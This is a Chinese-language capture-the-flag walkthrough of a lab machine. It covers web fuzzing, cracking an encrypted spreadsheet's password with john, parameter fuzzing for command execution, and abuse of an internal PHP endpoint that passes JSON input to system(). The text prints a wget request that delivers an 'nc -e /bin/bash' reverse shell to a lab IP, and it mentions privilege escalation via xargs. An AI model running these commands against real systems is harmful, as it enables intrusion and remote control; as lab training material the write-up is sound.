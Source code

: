 这个只扫到80端口，访问看看，只有一张图片，扫一下目录,扫到一个/scout![截屏2024-03-12 22.50.45.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710255048638-5428a354-12e6-4a6e-bd08-1b206e6b2d26.png#averageHue=%23f9f9f9&clientId=u01ad5e30-5a5b-4&from=drop&id=uf8deda1b&originHeight=668&originWidth=1580&originalType=binary&ratio=2&rotation=0&showTitle=false&size=74851&status=done&style=none&taskId=u60553929-b3fa-4de5-bacd-a08e066a379&title=)<br />他提示有个目录，但是路径中间部分需要fuzz，我也不知道wp作者用的什么字典（破案了，用medium能扫出来，要很久），最后fuzz出了个j2，访问后有个pass.txt，和一个加密的ods文件，还有一个没什么用的z206（虽然文件大小不是0）<br />![截屏2024-03-12 22.59.09.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710255555105-0af0f049-4801-4e75-9022-7d6752612b10.png#averageHue=%23f3f3f3&clientId=u01ad5e30-5a5b-4&from=drop&id=uc843f07b&originHeight=822&originWidth=1174&originalType=binary&ratio=2&rotation=0&showTitle=false&size=135211&status=done&style=none&taskId=u84e58d86-c3b0-499e-a72a-37feea85d01&title=)<br />用一下命令给shellfile.ods爆破出密码（学到了）<br />`libreoffice2john shellfile.ods>hash`<br />`johnhash--wordlist=/home/kali/rockyou.txt`<br />爆破出密码后还需要在线网站解密出来,得到一个新的ods文件，打开看一下，给了一个新的path<br />![截屏2024-03-12 23.07.54.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710256078239-5c3d68c1-98a3-4352-b764-f5b7a798329c.png#averageHue=%23fbfaf9&clientId=u01ad5e30-5a5b-4&from=drop&id=uaa3ff674&originHeight=386&originWidth=1440&originalType=binary&ratio=2&rotation=0&showTitle=false&size=36588&status=done&style=none&taskId=ud5051f4a-ad33-4b40-9f88-ac77f8ab8a2&title=)<br />访问是一片空白，但是看文件名，顺着思路**就是有命令执行，但是不知道参数是哪个，需要fuzz**<br />用burp扫了，最后扫出来参数是a，还说差一个b，也不知道要跟什么，又需要fuzz，最后fuzz出是pass<br />![截屏2024-03-12 23.24.32.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710257077417-ee35eb0a-b735-4f75-ad30-f06ad43bb8be.png#averageHue=%23efc19b&clientId=u8b58086c-d53b-4&from=drop&id=uee760f77&originHeight=1090&originWidth=1170&originalType=binary&ratio=2&rotation=0&showTitle=false&size=102199&status=done&style=none&taskId=u6b3ad704-ec78-4285-a3b9-19cb8d46e0c&title=)<br />![截屏2024-03-12 23.12.55.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710256378627-f9053b70-b7c5-4968-bfb3-2250ecb911b1.png#averageHue=%23f8f8f8&clientId=u01ad5e30-5a5b-4&from=drop&id=u1368e6e8&originHeight=278&originWidth=1132&originalType=binary&ratio=2&rotation=0&showTitle=false&size=34975&status=done&style=none&taskId=uac1b4b2b-fad2-4141-83fb-cd0a3f6f943&title=)<br />这两个fuzz太想不到了！<br />![截屏2024-03-12 23.15.48.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710256553848-5ebab3b7-a774-4e3e-a48a-b76c62460410.png#averageHue=%23f3f4f6&clientId=u01ad5e30-5a5b-4&from=drop&id=ud4644146&originHeight=268&originWidth=1314&originalType=binary&ratio=2&rotation=0&showTitle=false&size=38351&status=done&style=none&taskId=u3f28fd16-2a7c-4f68-ae65-20e26329e8f&title=)<br />这样就算拿到一个shell，反弹一![截屏2024-03-12 23.17.18.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710256642779-ce7a054e-fd7c-4d23-b9c4-aefc872db8d7.png#averageHue=%23070707&clientId=u01ad5e30-5a5b-4&from=drop&id=ub536be95&originHeight=406&originWidth=1430&originalType=binary&ratio=2&rotation=0&showTitle=false&size=95716&status=done&style=none&taskId=ud90f7efb-13e6-4575-a38f-fe61b4de2ef&title=)<br />然后我用pspy看到过段时间ditro会开启一个web服务，后来在crontab也能看到，ss -lntp发现对内开了8000端口，访问一下给了一个index.html,再提示有个priv.ph
```javascript
/*

$json = file_get_contents('php://input');
$data = json_decode($json, true);

if (isset($data['command'])) {
    system($data['command']);
} else {
    echo 'Error: the "command" parameter is not specified in the request body.';
}

*/
```
以json格式POST发送请求可以命令执行<br />`wget --post-data='{"command":"nc -e /bin/bash 192.168.64.3 8888"}' [http://127.0.0.1:8000/priv.php](http://127.0.0.1:8000/priv.php)`<br />利用wget发送请求就能反弹到dirto的shell
<a name="upBwq"></a>
#### 提权
![截屏2024-03-12 23.50.03.png](https://cdn.nlark.com/yuque/0/2024/png/40549096/1710258610513-39526526-77bc-47c3-ab0e-d80aa4d11111.png#averageHue=%23080808&clientId=uaa4ee3cb-ffe2-4&from=drop&id=Z9zOJ&originHeight=532&originWidth=1438&originalType=binary&ratio=2&rotation=0&showTitle=false&size=116620&status=done&style=none&taskId=u7d49dbad-0e23-4368-b797-5f2e3b63939&title=)<br />提权反而很简单，xargs，直接复制粘贴，提权成功
<a name="n7rkC"></a>
#### 总结
先是fuzz出j2，再破解ods文件密码，找到新的路径可能存在命令执行要fuzz参数，先后fuzz出了a，b，拿到www-data，发现对内开了8000端口，然后顺藤摸瓜发现有个新的命令执行php，这次请求的格式比较特殊，还是能拿到用户的shell，后面的提权反而很简单<br />这个靶场解谜属性比较重
<a name="UAWRL"></a>
### hannah
